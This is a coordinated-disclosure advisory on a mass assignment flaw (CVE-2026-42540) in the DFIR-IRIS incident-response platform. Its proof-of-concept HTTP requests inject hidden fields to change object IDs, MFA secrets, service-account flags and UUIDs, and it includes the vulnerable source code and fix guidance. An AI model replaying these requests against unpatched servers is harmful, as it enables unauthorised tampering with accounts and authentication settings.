

# DFIR-IRIS Mass Assignment #

## Vulnerability Overview ##

The IRIS web application allows a user to alter values in the database via
manipulated API requests.

* **Identifier**            : SBA-ADV-20260128-01
* **Type of Vulnerability** : Mass Assignment
* **Software/Product Name** : [IRIS](https://www.dfir-iris.org/)
* **Vendor**                : [DFIR-IRIS](https://github.com/dfir-iris)
* **Affected Versions**     : <= 2.4.27
* **Fixed in Version**      : v2.4.28
* **CVE ID**                : CVE-2026-42540
* **CVSS Vector**           : CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:L/A:N
* **CVSS Base Score**       : 4.3 (Medium)

## Vendor Description ##

> IRIS is a collaborative digital platform designed for incident response
> analysts to share complex investigations at a technical level. It can be
> installed on a dedicated server or as a portable application for roaming
> investigations where internet access might not be available.

Source: <https://docs.dfir-iris.org/2.4.24/>

## Impact ##

The following data points can be manipulated via this vulnerability:

* Object IDs
* Make the own account either a *ServiceAccount* or a regular account
* An account’s UUID
* MFA secrets
* Define if MFA has already been activated
* Usernames
* Make the account either active or inactive

## Vulnerability Description ##

The affected API allows setting additional parameters for write operations
which are not exposed in the GUI and are thus not supposed to be changeable
by the user.

## Proof of Concept ##

### Asset Type ID ###

We can manipulate the ID of any *Asset Type*.

This is the regular request sent by the GUI:

```http
POST /manage/asset-type/update/15?cid=1 HTTP/1.1
Host: myiris.local
Cookie: session=.eJwt[...]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Length: 865
Origin: https://myiris.local
Referer: https://myiris.local/manage/objects?cid=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive

------geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Disposition: form-data; name="csrf_token"

ImExNmRjNGM3OGEwMWY1YzVmMGYzMWRkNmYwOTIwZTdlN2FhZGY2NWQi.aWdxMg.Gq1j1KMH_iBYP6-OvVpEED4SbsA
------geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Disposition: form-data; name="asset_name"

WAF changed
------geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Disposition: form-data; name="asset_description"

WAF
------geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Disposition: form-data; name="asset_icon_not_compromised"; filename=""
Content-Type: application/octet-stream


------geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Disposition: form-data; name="asset_icon_compromised"; filename=""
Content-Type: application/octet-stream


------geckoformboundary9a81dc2172407a9622bd7fbda9c08675--

HTTP/1.1 200 OK
Server: nginx
Date: Wed, 21 Jan 2026 10:34:34 GMT
Content-Type: application/json
Content-Length: 247
Connection: keep-alive
Vary: Cookie
Content-Security-Policy: default-src 'self' https://analytics.dfir-iris.org; script-src 'self' 'unsafe-inline' https://analytics.dfir-iris.org; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000: includeSubDomains
Front-End-Https: on

{"status": "success", "message": "Asset type updated", "data": {"asset_description": "WAF", "asset_icon_compromised": "ioc_firewall.png", "asset_icon_not_compromised": "firewall.png", "asset_id": 15, "asset_name": "WAF changed", "registry": null}}
```

This adapted request sets the ID of the *Asset Type* to an attacker chosen
value of `666`:

```http
POST /manage/asset-type/update/15?cid=1 HTTP/1.1
Host: myiris.local
Cookie: session=.eJwt[...]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Length: 978
Origin: https://myiris.local
Referer: https://myiris.local/manage/objects?cid=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive

------geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Disposition: form-data; name="csrf_token"

ImExNmRjNGM3OGEwMWY1YzVmMGYzMWRkNmYwOTIwZTdlN2FhZGY2NWQi.aWdxMg.Gq1j1KMH_iBYP6-OvVpEED4SbsA
------geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Disposition: form-data; name="asset_name"

WAF changed
------geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Disposition: form-data; name="asset_description"

WAF
------geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Disposition: form-data; name="asset_id"

666
------geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Disposition: form-data; name="asset_icon_not_compromised"; filename=""
Content-Type: application/octet-stream


------geckoformboundary9a81dc2172407a9622bd7fbda9c08675
Content-Disposition: form-data; name="asset_icon_compromised"; filename=""
Content-Type: application/octet-stream


------geckoformboundary9a81dc2172407a9622bd7fbda9c08675--

HTTP/1.1 200 OK
Server: nginx
Date: Wed, 21 Jan 2026 10:36:57 GMT
Content-Type: application/json
Content-Length: 248
Connection: keep-alive
Vary: Cookie
Content-Security-Policy: default-src 'self' https://analytics.dfir-iris.org; script-src 'self' 'unsafe-inline' https://analytics.dfir-iris.org; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000: includeSubDomains
Front-End-Https: on

{"status": "success", "message": "Asset type updated", "data": {"asset_description": "WAF", "asset_icon_compromised": "ioc_firewall.png", "asset_icon_not_compromised": "firewall.png", "asset_id": 666, "asset_name": "WAF changed", "registry": null}}
```

The vulnerable part of the source code is the following
(`source/app/blueprints/manage/manage_assets_type_routes.py`):

```python hl:11
@manage_assets_type_blueprint.route('/manage/asset-type/update/<int:cur_id>', methods=['POST'])
@ac_api_requires(Permissions.server_administrator)
def view_assets(cur_id):
    asset_type = AssetsType.query.filter(AssetsType.asset_id == cur_id).first()
    if not asset_type:
        return response_error("Invalid asset type ID")

    asset_schema = AssetTypeSchema()
    try:

        asset_sc = asset_schema.load(request.form, instance=asset_type)
        fpath_nc = asset_schema.load_store_icon(request.files.get('asset_icon_not_compromised'),
                                                'asset_icon_not_compromised')

        fpath_c = asset_schema.load_store_icon(request.files.get('asset_icon_compromised'), 'asset_icon_compromised')

        if fpath_nc is not None:
            asset_sc.asset_icon_not_compromised = fpath_nc
        if fpath_c is not None:
            asset_sc.asset_icon_compromised = fpath_c

        if asset_sc:
            track_activity("updated asset type {}".format(asset_sc.asset_name))
            return response_success("Asset type updated", asset_sc)

    except marshmallow.exceptions.ValidationError as e:
        return response_error(msg="Data error", data=e.messages)

    return response_error("Unexpected error server-side. Nothing updated")
```

Looking at that source code file, we can see that the same vulnerability also
exists when a new *Asset Type* gets added via the`/manage/asset-type/add`
endpoint (same file as above).

```python hl:8
@manage_assets_type_blueprint.route('/manage/asset-type/add', methods=['POST'])
@ac_api_requires(Permissions.server_administrator)
def add_assets():

    asset_schema = AssetTypeSchema()
    try:

        asset_sc = asset_schema.load(request.form)
        fpath_nc = asset_schema.load_store_icon(request.files.get('asset_icon_not_compromised'),
                                                'asset_icon_not_compromised')

        fpath_c = asset_schema.load_store_icon(request.files.get('asset_icon_compromised'), 'asset_icon_compromised')

        if fpath_nc is not None:
            asset_sc.asset_icon_not_compromised = fpath_nc
        if fpath_c is not None:
            asset_sc.asset_icon_compromised = fpath_c

        if asset_sc:
            db.session.add(asset_sc)
            db.session.commit()

            track_activity("updated asset type {}".format(asset_sc.asset_name))
            return response_success("Asset type updated", asset_sc)

    except marshmallow.exceptions.ValidationError as e:
        return response_error(msg="Data error", data=e.messages)

    return response_error("Unexpected error server-side. Nothing updated")
```

### User Details ###

The request that users use to change their password (`/user/update`) can be
manipulated. Doing this allows users to change the following properties of
their own account:

* Make the own account either a *ServiceAccount* or a regular account
* Change the UUID
* Change the MFA secret
* Define if MFA has already been activated
* Change the username
* Make the account either active or inactive

```http
POST /user/update?cid=1 HTTP/1.1
Host: myiris.local
Cookie: session=.eJwt[...]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json;charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 312
Origin: https://myiris.local
Referer: https://myiris.local/user/settings?cid=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0
Te: trailers
Connection: keep-alive

{"csrf_token":"ImU0OTZmMjYyYzBjOTg0MmFhMmM1OTQ5YmRiMzZiODdlM2Q0N2JjMDci.aWe5GA.cEJbHuA4NiOkRPLF3NMw3pzyVU4","user_password":"Password123.",
"mfa_secrets": "ABCD",
"mfa_setup_complete": false,
"user_primary_organisation":  2,
"user_is_service_account": true,
"uuid": "00000000-0000-48a3-bf5e-111111111111","user_name":"Hacker Man","user_login":"hackerman"
}

HTTP/1.1 200 OK
Server: nginx
Date: Wed, 21 Jan 2026 15:52:54 GMT
Content-Type: application/json
Content-Length: 560
Connection: keep-alive
Vary: Cookie
Content-Security-Policy: default-src 'self' https://analytics.dfir-iris.org; script-src 'self' 'unsafe-inline' https://analytics.dfir-iris.org; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000: includeSubDomains
Front-End-Https: on

{"status": "success", "message": "User updated", "data": {"user_name": "Hacker Man", "user_login": "hackerman", "user_email": "pt1@sba.zone", "user_password": "$2b$12$xDEGwVOy9k8.7at3nhgR.usbvCyuWg60pdmjBAJfbUfYLa3hKcQ4G", "user_id": 2, "user_primary_organisation_id": 1, "user_is_service_account": true, "id": 2, "uuid": "00000000-0000-48a3-bf5e-111111111111", "active": true, "external_id": null, "in_dark_mode": true, "has_mini_sidebar": false, "has_deletion_confirmation": false, "mfa_secrets": "ABCD", "webauthn_credentials": [], "mfa_setup_complete": false}}
```

### User Details by Administrator ###

If an administrator is changing a user’s properties (e.g., to set a new
password) the following request is sent:

```http
POST /manage/users/update/2?cid=1 HTTP/1.1
Host: myiris.local
Cookie: session=.eJwt[...]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json;charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 216
Origin: https://myiris.local
Referer: https://myiris.local/manage/access-control?cid=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: blue
Priority: u=0
Te: trailers
Connection: keep-alive

{"csrf_token":"IjgyNDllMDhhZjJhMWYwZmVkMmFkYTdjNzU0ODZlNDM1Y2JlZGY1YTYi.aWTS9Q.NpxZMD7Mi_3VtCQ8TTjBDG9mvvo","user_name":"Pen Tester I","user_login":"pt1","user_email":"pt1@sba.zone","user_password":"Scooby-Doo71492"}

HTTP/1.1 200 OK
Server: nginx
Date: Mon, 26 Jan 2026 10:57:44 GMT
Content-Type: application/json
Content-Length: 524
Connection: keep-alive
Vary: Cookie
Content-Security-Policy: default-src 'self' https://analytics.dfir-iris.org; script-src 'self' 'unsafe-inline' https://analytics.dfir-iris.org; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000: includeSubDomains
Front-End-Https: on

{"status": "success", "message": "User updated", "data": {"user_name": "Pen Tester I", "user_login": "pt1", "user_email": "pt1@sba.zone", "user_password": "$2b$12$bYeULWZhSC/yg62cO/0tUuB9RjA2UACEWTI6EbPe/HXH2IiIS/aOm", "user_id": 2, "user_is_service_account": false, "id": 2, "uuid": "59ae98b4-778e-48a3-bf5e-88455ce6c207", "active": true, "external_id": null, "in_dark_mode": true, "has_mini_sidebar": false, "has_deletion_confirmation": false, "mfa_secrets": null, "webauthn_credentials": [], "mfa_setup_complete": false}}
```

Via the GUI, the admin is not able to alter certain values like the `User ID`
or the `User UUID`, the corresponding input fields are disabled.



Nevertheless, we can successfully overwrite the user’s UUID:

```http
POST /manage/users/update/2?cid=1 HTTP/1.1
Host: myiris.local
Cookie: session=.eJwt[...]
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/json;charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 233
Origin: https://myiris.local
Referer: https://myiris.local/manage/access-control?cid=1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
X-Pwnfox-Color: blue
Priority: u=0
Te: trailers
Connection: keep-alive

{"csrf_token":"IjgyNDllMDhhZjJhMWYwZmVkMmFkYTdjNzU0ODZlNDM1Y2JlZGY1YTYi.aWTS9Q.NpxZMD7Mi_3VtCQ8TTjBDG9mvvo","user_name":"Pen Tester I","user_login":"pt1","user_email":"pt1@sba.zone","uuid":   "00000000-0000-48a3-bf5e-88455ce6c207"
}

HTTP/1.1 200 OK
Server: nginx
Date: Mon, 26 Jan 2026 11:02:00 GMT
Content-Type: application/json
Content-Length: 524
Connection: keep-alive
Vary: Cookie
Content-Security-Policy: default-src 'self' https://analytics.dfir-iris.org; script-src 'self' 'unsafe-inline' https://analytics.dfir-iris.org; style-src 'self' 'unsafe-inline'; img-src 'self' data:;
X-XSS-Protection: 1; mode=block
X-Frame-Options: DENY
X-Content-Type-Options: nosniff
Strict-Transport-Security: max-age=31536000: includeSubDomains
Front-End-Https: on

{"status": "success", "message": "User updated", "data": {"user_name": "Pen Tester I", "user_login": "pt1", "user_email": "pt1@sba.zone", "user_password": "$2b$12$bYeULWZhSC/yg62cO/0tUuB9RjA2UACEWTI6EbPe/HXH2IiIS/aOm", "user_id": 2, "user_is_service_account": false, "id": 2, "uuid": "00000000-0000-48a3-bf5e-88455ce6c207", "active": true, "external_id": null, "in_dark_mode": true, "has_mini_sidebar": false, "has_deletion_confirmation": false, "mfa_secrets": null, "webauthn_credentials": [], "mfa_setup_complete": false}}
```

Changing a user’s ID does currently not work, but it is not prevented by
proper protection measures in the application but rather only by database
constraints, as the log shows:

```log
iriswebapp_app       | 2026-01-26 10:59:51 :: ERROR :: app :: log_exception :: Exception on /manage/users/update/2 [POST]
iriswebapp_app       | Traceback (most recent call last):
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/engine/base.py", line 1969, in _exec_single_context
iriswebapp_app       |     self.dialect.do_execute(
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/engine/default.py", line 922, in do_execute
iriswebapp_app       |     cursor.execute(statement, parameters)
iriswebapp_app       | psycopg2.errors.ForeignKeyViolation: update or delete on table "user" violates foreign key constraint "user_organisation_user_id_fkey" on table "user_organisation"
iriswebapp_app       | DETAIL:  Key (id)=(2) is still referenced from table "user_organisation".
iriswebapp_app       |
iriswebapp_app       |
iriswebapp_app       | The above exception was the direct cause of the following exception:
iriswebapp_app       |
iriswebapp_app       | Traceback (most recent call last):
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/flask/app.py", line 2190, in wsgi_app
iriswebapp_app       |     response = self.full_dispatch_request()
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/flask/app.py", line 1486, in full_dispatch_request
iriswebapp_app       |     rv = self.handle_user_exception(e)
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/flask/app.py", line 1484, in full_dispatch_request
iriswebapp_app       |     rv = self.dispatch_request()
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/flask/app.py", line 1469, in dispatch_request
iriswebapp_app       |     return self.ensure_sync(self.view_functions[rule.endpoint])(**view_args)
iriswebapp_app       |   File "/iriswebapp/app/util.py", line 747, in wrap
iriswebapp_app       |     return f(*args, **kwargs)
iriswebapp_app       |   File "/iriswebapp/app/blueprints/manage/manage_users.py", line 449, in update_user_api
iriswebapp_app       |     update_user(password=jsdata.get('user_password'),
iriswebapp_app       |   File "/iriswebapp/app/datamgmt/manage/manage_users_db.py", line 696, in update_user
iriswebapp_app       |     db.session.commit()
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/scoping.py", line 598, in commit
iriswebapp_app       |     return self._proxied.commit()
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/session.py", line 1969, in commit
iriswebapp_app       |     trans.commit(_to_root=True)
iriswebapp_app       |   File "<string>", line 2, in commit
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/state_changes.py", line 139, in _go
iriswebapp_app       |     ret_value = fn(self, *arg, **kw)
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/session.py", line 1256, in commit
iriswebapp_app       |     self._prepare_impl()
iriswebapp_app       |   File "<string>", line 2, in _prepare_impl
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/state_changes.py", line 139, in _go
iriswebapp_app       |     ret_value = fn(self, *arg, **kw)
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/session.py", line 1231, in _prepare_impl
iriswebapp_app       |     self.session.flush()
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/session.py", line 4312, in flush
iriswebapp_app       |     self._flush(objects)
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/session.py", line 4448, in _flush
iriswebapp_app       |     transaction.rollback(_capture_exception=True)
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/util/langhelpers.py", line 146, in __exit__
iriswebapp_app       |     raise exc_value.with_traceback(exc_tb)
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/session.py", line 4408, in _flush
iriswebapp_app       |     flush_context.execute()
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/unitofwork.py", line 466, in execute
iriswebapp_app       |     rec.execute(self)
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/unitofwork.py", line 642, in execute
iriswebapp_app       |     util.preloaded.orm_persistence.save_obj(
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/persistence.py", line 85, in save_obj
iriswebapp_app       |     _emit_update_statements(
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/orm/persistence.py", line 910, in _emit_update_statements
iriswebapp_app       |     c = connection.execute(
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/engine/base.py", line 1416, in execute
iriswebapp_app       |     return meth(
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/sql/elements.py", line 517, in _execute_on_connection
iriswebapp_app       |     return connection._execute_clauseelement(
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/engine/base.py", line 1639, in _execute_clauseelement
iriswebapp_app       |     ret = self._execute_context(
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/engine/base.py", line 1848, in _execute_context
iriswebapp_app       |     return self._exec_single_context(
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/engine/base.py", line 1988, in _exec_single_context
iriswebapp_app       |     self._handle_dbapi_exception(
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/engine/base.py", line 2344, in _handle_dbapi_exception
iriswebapp_app       |     raise sqlalchemy_exception.with_traceback(exc_info[2]) from e
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/engine/base.py", line 1969, in _exec_single_context
iriswebapp_app       |     self.dialect.do_execute(
iriswebapp_app       |   File "/opt/venv/lib/python3.9/site-packages/sqlalchemy/engine/default.py", line 922, in do_execute
iriswebapp_app       |     cursor.execute(statement, parameters)
iriswebapp_app       | sqlalchemy.exc.IntegrityError: (psycopg2.errors.ForeignKeyViolation) update or delete on table "user" violates foreign key constraint "user_organisation_user_id_fkey" on table "user_organisation"
iriswebapp_app       | DETAIL:  Key (id)=(2) is still referenced from table "user_organisation".
iriswebapp_app       |
iriswebapp_app       | [SQL: UPDATE "user" SET id=%(id)s WHERE "user".id = %(user_id)s]
```

## Recommended Countermeasures ##

We recommend updating to IRIS version 2.4.28 or later.

IRIS should only allow a defined set of fields for write operations and
technically enforce these rules. One way to achieve this is to work with
allowlists for such fields.

Another possibility is to work with so-called *Data Transfer Objects*. These
are classes which only contain the attributes that are relevant for the
context at hand. Additional fields are simply ignored. This will stop the
attack described above from working.

This is also not a new vulnerability in the application. Another mass
assignment vulnerability was recently reported as CVE-2026-22783, but the
problem was unfortunately not fixed throughout the codebase. Steps should be
taken to eliminate this type of vulnerability in the whole application.

## Timeline ##

* `2026-01-26` Identified the vulnerability in version 2.4.26
* `2026-01-30` Initial vendor contact via e-mail
* `2026-02-27` Second vendor contact via e-mail
* `2026-03-30` Report on GitHub due to a missing response from the vendor
* `2026-04-27` Version containing fix (v2.4.28) tagged by vendor
* `2026-04-28` GitHub assigned CVE-2026-42540
* `2026-05-04` Confirm fix for v2.4.28
* `2026-05-19` Public disclosure

## References ##

* OWASP API Security Top 10. API3:2023 Broken Object Property Level
  Authorization:
  <https://owasp.org/API-Security/editions/2023/en/0xa3-broken-object-property-level-authorization/>
* Common Weakness Enumeration. CWE-915 Improperly Controlled Modification of
  Dynamically-Determined Object Attributes:
  <https://cwe.mitre.org/data/definitions/915.html>
* DFIR IRIS. Security Advisory. Arbitrary File Deletion via Mass Assignment in
  Datastore File Management:
  <https://github.com/dfir-iris/iris-web/security/advisories/GHSA-qhqj-8qw6-wp8v>
* OWASP Cheat Sheet Series. Mass Assignment Cheat Sheet:
  <https://cheatsheetseries.owasp.org/cheatsheets/Mass_Assignment_Cheat_Sheet.html>
* OpenCRE. CRE 042-550 Protect against mass parameter assignment attack:
  <https://opencre.org/cre/042-550F>
* OWASP Application Security Verification Standard (ASVS) v5.0.0. Requirement
  15.3.3 Verify that the application has countermeasures to protect against
  mass assignment attacks:
  <https://raw.githubusercontent.com/OWASP/ASVS/v5.0.0/5.0/OWASP_Application_Security_Verification_Standard_5.0.0_en.pdf>

## Credits ##

* Michael Koppmann ([SBA Research](https://www.sba-research.org/))
* Mathias Tausig ([SBA Research](https://www.sba-research.org/))

The discovery of this vulnerability was made possible through support from
[CYSSDE](https://cyssde.eu/) and the European Union.


